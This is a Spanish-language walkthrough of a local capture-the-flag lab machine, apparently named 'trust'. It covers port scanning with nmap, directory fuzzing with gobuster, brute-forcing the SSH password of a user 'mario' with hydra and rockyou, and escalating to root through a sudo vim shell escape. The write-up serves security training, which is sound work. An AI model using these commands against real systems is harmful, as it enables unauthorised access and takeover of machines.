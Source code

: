 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

Escaneamos la IP:

![Pasted image 20250129163249](https://github.com/user-attachments/assets/90c23bdb-2ae9-4093-8e5a-db4f5ca2c964)

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.18.0.2
```

![Pasted image 20250129163344](https://github.com/user-attachments/assets/cc8d490d-087f-4f88-a79c-0d539683e013)

Hacemos fuzzing:

```Bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh
```
![Pasted image 20250129163713](https://github.com/user-attachments/assets/735bf5b0-3137-49bd-8df7-1eea577d0699)

Comprobamos el directorio:

![Pasted image 20250129163612](https://github.com/user-attachments/assets/9e1db405-f2ea-4378-84c2-331fd50ee6db)

Nos dice un nombre (Mario)

```Bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 64
```

![Pasted image 20250129163905](https://github.com/user-attachments/assets/eeaab2a1-c19a-411e-ba23-d399465d4887)

Nos conectamos con SSH

```Bash
ssh mario@172.18.0.2
```

![Pasted image 20250129163946](https://github.com/user-attachments/assets/16477f3d-fb19-4a7d-8846-f50e653a75f7)

Intentamos elevar privilegios

```Bash
sudo -l
```

![Pasted image 20250129164036](https://github.com/user-attachments/assets/31b94fbc-f85b-4e14-a1f5-13f25a594e48)

```Bash
sudo vim -c ':!/bin/bash'
```

![Pasted image 20250129164103](https://github.com/user-attachments/assets/b696e89f-0625-4fd9-9e07-b4f7b7910966)

o también:

```Bash
sudo -u root /usr/bin/vim
```

![Pasted image 20250129164139](https://github.com/user-attachments/assets/3c87b144-bf66-4b67-9627-7a70fecdc133)

```Bash
:!/bin/bash
```

![Pasted image 20250129164211](https://github.com/user-attachments/assets/0d3ef320-30bb-411c-a8f5-1510e99295d0)

![Pasted image 20250129164233](https://github.com/user-attachments/assets/10e9dea0-638c-4206-8225-eafaa57d0c31)

Otra forma de elevar:

```Bash
sudo -u root /usr/bin/vim -c ':!/bin/bash'
```

![Pasted image 20250129164322](https://github.com/user-attachments/assets/2c93b86b-0e35-4012-80b0-c8c82fecfece)

```Bash
whoami
```

![Pasted image 20250129164345](https://github.com/user-attachments/assets/865a8fbf-e26d-44f8-8d5b-6f6194e96d6d)
